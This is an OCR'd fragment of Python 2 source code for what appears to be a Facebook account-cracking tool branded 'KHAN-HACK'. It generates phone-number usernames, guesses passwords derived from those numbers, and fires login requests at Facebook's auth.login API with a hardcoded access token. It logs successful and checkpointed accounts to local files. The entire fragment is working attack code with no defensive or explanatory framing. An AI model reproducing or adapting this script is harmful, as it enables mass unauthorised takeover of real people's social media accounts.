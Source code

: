         except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '0':
        exb()
    else:
        print
        action()
    xxx = str(len(id))
    print ''
    print 50 * '-'
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Please wait, process is running ...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    psb(50 * '-')
    time.sleep(0.5)
    print
    50 * '-'
    print

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            result = k + c + user
            digi11 = result[3:14]
            pass1 = digi11
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[KHAN-HACK]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '|' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m[KHAN-CHECKPOINT]\x1b[1;97m ' + k + c + user + ' | ' + pass1 + '\x1b[1;93m[Login 7 Days]\x1b[0m \n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '|' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
        except:
            pass
